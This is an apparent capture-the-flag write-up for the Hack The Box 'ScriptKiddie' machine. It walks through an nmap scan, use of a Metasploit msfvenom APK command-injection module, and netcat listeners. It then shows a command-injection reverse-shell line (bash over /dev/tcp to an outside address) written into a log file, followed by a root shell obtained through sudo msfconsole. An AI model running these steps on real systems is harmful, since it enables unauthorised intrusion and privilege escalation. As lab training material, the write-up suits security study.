# ScriptKiddie

## Nmap Scan
Let's start with a nmap scan to extract the open ports
```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-22 09:38 EDT
Nmap scan report for 10.10.10.226
Host is up (0.16s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-server-header: Werkzeug/0.16.1 Python/3.8.5
|_http-title: k1d'5 h4ck3r t00l5
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=4/22%OT=22%CT=1%CU=40802%PV=Y%DS=2%DC=T%G=Y%TM=60817C7
OS:5%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=10C%TI=Z%CI=Z%TS=A)SEQ(SP=1
OS:05%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M54DST11NW7%O2=M54DST11NW7%O
OS:3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11NW7%O6=M54DST11)WIN(W1=FE88%W2=
OS:FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M54DNNSN
OS:W7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%D
OS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%R
OS:IPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 3389/tcp)
HOP RTT       ADDRESS
1   148.11 ms 10.10.14.1
2   148.18 ms 10.10.10.226

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 42.09 seconds
```

We can see that the ports 5000 and 22 are open, 5000 for http and 22 for ssh

Open the following link in the browser : http://10.10.10.226:5000

![alt text](https://miro.medium.com/max/1050/1*kHKLfZcara8e5gh-YGbe1Q.png)

A very simple page with 3 sections, Nmap scan, msfvenom and searchSploit
we can try command injection adn file Upload vulnerabilty
after some research we found that is APK template command injection Vulnerabilty

## Metasploit
Let's create a payload with metasploit framework using the exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection module
the generated payload is with .apk extension
first, start a netcat listener on the port 5555
```
nc -nlvp 5555
```
now we can upload the payload with the Android platform and our ip address
in out machine, we see that the reverse connection has been established
user flag is in users.txt flag

## Privilege Escalation
in the logs directory, we can see that the file named hackers is owned by the group pwn, so we can execute commands with this group
now let's establish a reverse shell using this file
fisrt, start another netcat listener on the port 1234
```
nc -nlvp 1234
```
now in the box machine, run the following command :

```
echo "   ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.76/1234 0>&1' #" >> hackers
```

BOOOOOOOOOM, the reverse connection has been made but this time with user pwn. But we need the root user, let's give a look at the sudo permissions with this command :
```
sudo -l
```
```
User pwn may run the following commands on ScriptKiddie:
  (root) NOPASSWORD: /opt/metasploit-framework-6.0.9/msfconsole
```

Nice, so we can run metasploit with root privileges and without a password
```
sudo msfconsole
```
get access to the shell
```
msf6>/bin/bash
```
now we are logged in with root user
the system falg is located at root.txt file





